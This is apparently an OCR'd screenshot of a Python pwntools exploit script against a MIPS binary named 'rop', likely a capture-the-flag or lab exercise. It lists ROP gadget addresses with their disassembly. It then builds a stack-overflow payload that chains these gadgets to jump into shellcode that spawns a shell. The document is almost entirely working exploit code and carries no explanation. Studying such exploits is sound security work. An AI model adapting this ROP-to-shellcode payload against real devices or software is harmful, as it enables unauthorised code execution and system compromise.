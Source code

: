 ```python
    p = process(['qemu-mips-static', '-g', '1234','./rop'])
    gdbscript = ''''''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#--- helper functions
s       = lambda data               :p.send(data)    
sa      = lambda delim,data         :p.sendafter(delim, data) 
sl      = lambda data               :p.sendline(data) 
sla     = lambda delim,data         :p.sendlineafter(delim, data) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\x00'))
uu64    = lambda data   :u64(data.ljust(8, b'\x00'))
leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
#---

set_sp2s7_jmp_s1  = 0x041F0A4
# .text:0041F0A4                 addiu   $s7, $sp, 0x20+var_8
# .text:0041F0A8                 li      $s5, strtoul
# .text:0041F0AC                 move    $s0, $v0
# .text:0041F0B0                 move    $t9, $s1
# .text:0041F0B4                 jalr    $t9

set_ra_s1_s2_s0_jmp_ra = 0x0400C14
# .text:00400C14                 lw      $ra, 0xB8+var_sC($sp)
# .text:00400C18                 lw      $s2, 0xB8+var_s8($sp)
# .text:00400C1C                 lw      $s1, 0xB8+var_s4($sp)
# .text:00400C20                 lw      $s0, 0xB8+var_s0($sp)
# .text:00400C24                 jr      $ra

set_sp2a1_jmp_s2 = 0x00440784
# .text:00440784                 addiu   $a1, $sp, 0x6C+var_38
# .text:00440788                 sw      $zero, 0x6C+var_5C($sp)
# .text:0044078C                 move    $t9, $s2
# .text:00440790                 jalr    $t9

mov_s1_a1_jmp_s0 = 0x044E20C
# .text:0044E20C                 move    $s1, $a1
# .text:0044E210                 addiu   $s5, $v0, 1
# .text:0044E214                 move    $t9, $s0
# .text:0044E218                 jalr    $t9 ; strlen

payload = b"A" * 76
payload += p32(set_ra_s1_s2_s0_jmp_ra)

sc = asm(shellcraft.sh())

payload = payload.ljust(80 + 0xb8, b'C')
payload += p32(0) # s0
payload += p32(0) # s1 
payload += p32(set_ra_s1_s2_s0_jmp_ra) # s2 [2]
payload += p32(set_sp2a1_jmp_s2) # ra [1]

payload = payload.ljust(80 + 0xb8 + 0x44, b'D')
payload += sc
payload = payload.ljust(80 + 0xb8 + 196 + 4, b'E')
payload += p32(set_sp2s7_jmp_s1) # s0 [4]
payload += p32(0) # s1 
payload += p32(0) # s2
payload += p32(mov_s1_a1_jmp_s0) # ra [3]

```